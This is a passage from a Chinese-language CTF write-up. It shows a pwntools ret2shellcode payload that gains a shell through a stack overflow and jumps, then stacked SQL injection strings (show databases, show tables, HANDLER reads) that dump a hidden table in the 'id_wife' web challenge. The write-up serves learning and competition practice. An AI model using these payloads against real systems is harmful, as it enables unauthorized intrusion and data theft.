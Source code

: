 ```win```环境下拖进```IDA```进行分析
接下来就是`ret2shellcode`的：
#### `ret2shellcode`修正过程：
- **在`rsp`最终指向的地址放上我们待执行的`shellcode`**

- **由于长度不够，我们可以把`getshell`的`shellcode`放在读入的字符串的最开始的地方，再通过汇编指令进行跳转**
- **在`rsp`所指向的位置覆盖上`shellcode`，改变`rsp`的值使其指向`getshell`的`shellcode`并再次进行跳转，完成`getshell`**

那么`payload`就很容易构造出来了：

```python

context.arch = 'amd64'
sc1 = asm(shellcraft.sh())
sc2 = asm('sub rsp,64')//48字节的字符串+8字节的rsp+8字节的rbp，跳回开头
sc3 = asm('jmp rsp')
elf = ELF('hello')
payload = sc1 + b'a'*(56-len(sc1)) + p64(elf.symbols['bd']) + sc2 + sc3
```

![image.png](https://i.loli.net/2020/05/11/DCm7Wv6HMOnVLja.png)

## Web

### id_wife | Author: luoqi@n

<img src="https://i.loli.net/2020/05/16/gYQKdLw645feHW3.png" alt="image-20200516102439823.png" style="zoom:50%;" />

这个还真挺好玩的，把认识的师傅id都输了一遍，直到我把自己的id输了进去（草

这里拿小sad举例：

![image-20200516105810838.png](https://i.loli.net/2020/05/16/EtImALgT82Oeznq.png)

看见这个，我立刻想到了强网杯的随便注（其实找了半天），因为那道题用到了堆叠注入的知识点，所以我就试了一下

```
sad'); show databases;
```

![image-20200516110446026.png](https://i.loli.net/2020/05/16/YUsGpLbv8QtgiNR.png)

成了，再试一下查询表

```
sad'); show tables;
```

![image-20200516110244132.png](https://i.loli.net/2020/05/16/N7hIaBu3ymOJ5E8.png)

这个看起来这么臭的表一定有问题（确信

这里我用到了handler，这条语句使我们能够一行一行的浏览一个表中的数据，所以：

```
sad');handler`1145141919810`open;handler`1145141919810`read first;
```
